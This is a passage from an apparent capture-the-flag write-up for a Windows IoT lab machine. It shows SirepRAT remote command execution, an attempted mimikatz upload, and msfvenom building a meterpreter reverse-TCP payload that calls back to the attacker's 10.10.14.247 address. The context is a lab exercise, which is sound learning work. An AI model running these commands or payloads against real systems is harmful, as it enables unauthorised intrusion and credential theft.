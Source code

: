 Now the user for the IoT device DefaultAccount has its password changed to 'password' and this can be used in the web login 10.10.10.204:8080 as found previously. However, although this opens access to the web dashboard, note that DefaultAccount is just a regular user and NOT part of the Administrators group. From this point on, there is a command line included within the web application (Sidebar->Processes->Run command), so the SirepRAT use for command line execution can be replaced in some ways using the web CLI. 

```
(myvenv) ┌──(kali㉿kali)-[~/Downloads/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c net localgroup Administrators" --v
---------
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.
```

```
Command> wmic OS get OSArchitecture

OSArchitecture                = 64-bit
```

 ?? THIS IS NOT WORKING! THE FILES ARE THE SAME SIZE??
 ?? Then, upload mimikatz binary files (3 of them) to the system32 directory using SirepRAT.
 ?? Note: use string=$(cat file) and then pass that string into the "data" flag of SirepRAT.

Ok, trying to get a reverse shell now for convenience. 
```
msf6 > msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.247 -f exe -o /tmp/payload.exe
[*] exec: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.247 -f exe -o /tmp/payload.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: /tmp/payload.exe
```

```
┌──(kali㉿kali)-[~]
└─$ ip a                                                                                                                                                                                                                             255 ⨯
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:ab:08:1c brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 78677sec preferred_lft 78677sec
    inet6 fe80::a00:27ff:feab:81c/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none 
    inet 10.10.14.247/23 scope global tun0
```